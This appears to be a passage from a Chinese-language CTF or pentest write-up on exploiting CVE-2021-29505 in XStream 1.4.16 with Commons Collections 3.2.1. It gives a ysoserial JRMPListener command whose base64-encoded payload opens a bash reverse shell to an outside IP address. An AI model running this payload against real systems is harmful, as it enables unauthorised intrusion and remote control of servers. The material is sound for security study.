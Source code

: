 发现了CC3.2.1的依赖以及xstream1.4.16，可以打CVE-2021-29505，网站首页抓包发现可以直接发送xml格式内容

![QQ_1732793543780](images/3.png)

起一个jrmp监听

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}"
```

